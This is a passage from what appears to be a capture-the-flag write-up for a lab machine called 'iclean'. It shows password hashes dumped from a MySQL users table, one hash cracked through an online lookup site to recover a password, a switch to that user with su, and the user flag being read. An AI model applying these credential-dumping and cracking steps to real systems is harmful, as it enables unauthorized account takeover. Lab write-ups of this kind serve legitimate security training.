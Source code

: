 And we ended up finding some `hashes` by pulling them from the `users table`.

```c
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

| Username | Hash                                                             |
| -------- | ---------------------------------------------------------------- |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |

## Cracking the Hash

The hash of `concuela` is crackable but since `crackstation.net` is our best friend, we got the password from there.

- [https://crackstation.net/](https://crackstation.net/)

| Password         |
| ---------------- |
| simple and clean |

## Privilege Escalation to consuela

I switched to `consuela` by simply using `su` but login via `SSH` also worked on the box.

```c
www-data@iclean:/opt/app$ su consuela
Password: 
consuela@iclean:/opt/app$
```

## user.txt

And we got the `user.txt` in the `home directory` of `consuela`.

```c
consuela@iclean:~$ cat user.txt
fe4ea45e9c20e9f0a3b49f1e18dbff50
```

## Enumeration

